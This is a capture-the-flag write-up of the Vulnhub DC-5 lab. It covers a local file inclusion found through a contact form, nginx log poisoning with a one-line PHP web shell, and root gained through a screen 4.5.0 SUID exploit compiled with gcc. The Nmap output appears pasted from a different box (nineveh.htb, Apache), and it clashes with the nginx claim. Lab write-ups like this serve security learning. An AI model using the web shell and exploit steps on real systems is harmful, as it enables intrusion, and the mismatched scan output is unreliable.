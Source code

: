 ```yaml
---
layout: PostSimple
date: 2019-11-19
title:     "Vulnhub - DC 5"
tags: ['easy','lfi','log-poisoning']
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/1.png)
Today, We are going to pwn DC 5 by DCAU7 from Vulnhub


## Description
>DC-5 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
The plan was for DC-5 to kick it up a notch, so this might not be  great for beginners, but should be ok for people with intermediate or  better experience. Time will tell (as will feedback).
As far as I am aware, there is only one exploitable entry point to  get in (there is no SSH either). This particular entry point may be  quite hard to identify, but it is there. You need to look for something a  little out of the ordinary (something that changes with a refresh of a  page). This will hopefully provide some kind of idea as to what the  vulnerability might involve.
And just for the record, there is no phpmailer exploit involved. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.
But if you're really, really stuck, you can watch this video which shows the first step.

Download link: <https://www.vulnhub.com/entry/dc-5,314/>

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
45669/tcp open  unknown
```

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.9
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/27 17:30:35 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/27 17:30:36 Finished
===============================================================
```

Well gobuster didn’t find anything interesting.

Lets Check the webpage and nothing Interesting too.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/1.png)

But there is form in ``contact`` page.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/2.png)

So i filled some random datas and submitted

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/3.png)

## Getting Shell

### Finding LFI

Once submitted it redirects to some new page with some kind of parameters. I think it is vulnerable to LFI (Local File Inclusion)
So lets test it.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/4.png)
Its Confirmed!!
Now all we need to do is get a reverse shell.

### LFI -> RCE
We know its running in nginx from nmap scans so we can do log poisoning.
For that we need to send a request

`` <?php system($_GET['cmd']); >>``

Now its injected , we know log files of nginx located in ``/var/log/nginx/error.log``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/5.png)
For more info read this article:
>https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

We got the shell

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/6.png)

## Privilege Escalation

I uploaded my Linux Enumeration Script and found SETUID file

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/7.png)

>screen 4.5.0

Searchsploit shows me an exploit available

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/8.png)

> <https://www.exploit-db.com/exploits/41154>

I uploaded the script to the machine and tried running but i faced some error , so i split them into 3 parts

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/9.png)

And did the same commands

```
gcc -fPIC -shared -ldl -o exploit.so exploit.c
gcc -o rootshell rootshell.c
```
Now I uploaded them

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/10.png)

Run 411.sh

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/11.png)

We got Root 

``Flag`` <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/13.png)

